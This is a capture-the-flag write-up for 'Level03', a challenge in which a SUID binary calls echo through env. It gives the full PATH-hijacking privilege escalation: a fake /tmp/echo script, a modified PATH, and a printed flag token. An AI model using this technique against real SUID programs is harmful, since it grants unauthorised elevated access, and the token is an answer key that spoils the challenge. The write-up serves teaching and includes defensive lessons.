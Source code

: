 # Level03 - Path Hijacking Exploit

## Challenge Overview
Level03 presents a binary executable with SUID (Set User ID) permissions that runs with the privileges of `flag03`. Our goal is to exploit this binary to execute `getflag` with elevated permissions.

## Binary Analysis

### File Permissions
```
-rwsr-sr-x 1 flag03 level03 8627 Mar 5 2016 level03
```

Key observations:
- The `s` in the owner permissions indicates SUID bit is set
- The binary runs with `flag03` privileges when executed
- It's owned by `flag03` but executable by level03 users

### Binary Content Analysis
To analyze the binary, we can use the `strings` command to extract human-readable strings from the binary:
```bash
strings level03 > level03.txt
```
Looking at the binary, we can identify:
- A call to `system()` function
- References to `setresgid` and `setresuid` (privilege management functions)
- A critical string: `/usr/bin/env echo Exploit me`

## Vulnerability Explanation
The binary executes a command using `system()` that uses env to locate and run the `echo` command. When env is called, it searches for commands in directories listed in the `PATH` environment variable.

The vulnerability lies in the fact that we can manipulate the `PATH` variable to make the program execute our own version of `echo` instead of the system's version.

## The PATH Environment Variable
`PATH` is a colon-separated list of directories that the system searches when executing commands. For example:
```
PATH=/usr/local/bin:/usr/bin:/bin
```

When we use `export PATH=/tmp:$PATH`, we're:
1. Prepending tmp to the existing PATH
2. Making this modified PATH available to child processes
3. Ensuring the system looks in tmp first when searching for executables

## Exploitation Steps

### 1. Create a malicious `echo` script
```bash
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
```

This script will execute `getflag` with `flag03` privileges when called.

### 2. Modify PATH to prioritize our script
```bash
export PATH=/tmp:$PATH
```

This makes the system search in tmp first when looking for executables.

### 3. Execute the vulnerable program
```bash
./level03
```

### 4. Result
When executed, the binary will:
1. Run with `flag03` privileges due to SUID
2. Attempt to execute `/usr/bin/env echo Exploit me`
3. env will search for `echo` in the PATH
4. Find and execute our malicious `echo` script in tmp
5. Our script will run `getflag` with `flag03` privileges
6. The flag for the next level will be displayed

## Security Lessons
1. **Path Hijacking**: Always use absolute paths in privileged programs
2. **SUID Binaries**: Be extremely cautious with SUID executables that call other programs without specifying full paths
3. **Environment Variables**: Remember that environment variables like PATH can be manipulated by users

## Complete Solution
```bash
# Create malicious echo script
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo

# Modify PATH
export PATH=/tmp:$PATH

# Run the vulnerable program
./level03

# Expected output: Check flag.Here is your token: qi0maab88jeaj46qoumi7maus
```

This attack technique is known as "PATH hijacking" and is a common privilege escalation method in Unix/Linux environments.